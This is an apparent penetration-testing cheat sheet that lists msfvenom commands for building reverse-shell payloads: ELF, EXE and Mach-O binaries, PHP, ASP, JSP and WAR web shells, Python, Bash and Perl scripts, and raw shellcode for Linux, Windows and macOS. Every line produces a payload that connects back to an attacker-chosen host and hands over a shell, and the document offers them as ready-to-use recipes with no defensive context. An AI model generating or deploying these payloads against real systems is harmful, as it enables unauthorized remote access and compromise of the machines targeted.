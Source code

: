 ===================
Metasploit Payloads
===================

Binaries
--------

**Linux**

.. code-block:: bash

    msfvenom -p linux/x86/shell/reverse_tcp <options> -f elf > shell.elf # staged
    msfvenom -p linux/x86/shell_reverse_tcp <options> -f elf > shell.elf # stageless

    msfvenom -p linux/x64/shell/reverse_tcp <options> -f elf > shell.elf # staged
    msfvenom -p linux/x64/shell_reverse_tcp <options> -f elf > shell.elf # stageless

**Windows**

.. code-block:: bash

    msfvenom -p windows/shell/reverse_tcp <options> -f exe > shell.exe # staged
    msfvenom -p windows/shell_reverse_tcp <options> -f exe > shell.exe # stageless

    msfvenom -p windows/x64/shell/reverse_tcp <options> -f exe > shell.exe # staged
    msfvenom -p windows/x64/shell_reverse_tcp <options> -f exe > shell.exe # stageless

**Mac**

.. code-block:: bash

    msfvenom -p osx/x86/shell_reverse_tcp <options> -f macho > shell.macho # stageless

    msfvenom -p osx/x64/shell_reverse_tcp <options> -f macho > shell.macho # stageless

Web Payloads
------------

**PHP**

.. code-block:: bash

    msfvenom -p php/reverse_php <options> -f raw > shell.php

**ASP**

.. code-block:: bash

    msfvenom -p windows/shell/reverse_tcp <options> -f asp > shell.asp

**JSP**

.. code-block:: bash

    msfvenom -p java/jsp_shell_reverse_tcp <options> -f raw > shell.jsp

**WAR**

.. code-block:: bash

    msfvenom -p java/jsp_shell_reverse_tcp <options> -f war > shell.war

Scripting Payloads
------------------

**Python**

.. code-block:: bash

    msfvenom -p cmd/unix/reverse_python <options> -f raw > shell.py
    msfvenom -p python/shell_reverse_tcp <options> -f raw > shell.py

**Bash**

.. code-block:: bash

    msfvenom -p cmd/unix/reverse_bash <options> -f raw > shell.sh
    msfvenom -p cmd/unix/reverse_bash_telnet_ssl <options> -f raw > shell.sh

**Perl**

.. code-block:: bash

    msfvenom -p cmd/unix/reverse_perl <options> -f raw > shell.pl
    msfvenom -p cmd/windows/reverse_perl <options> -f raw > shell.pl

Shellcode
---------

**Linux Based Shellcode**

.. code-block:: bash

    msfvenom -p linux/x86/shell/reverse_tcp <options> -f <language>

**Windows Based Shellcode**

.. code-block:: bash

    msfvenom -p windows/shell/reverse_tcp <options> -f <language>

**Mac Based Shellcode**

.. code-block:: bash

    msfvenom -p osx/x86/shell_reverse_tcp <options> -f <language>
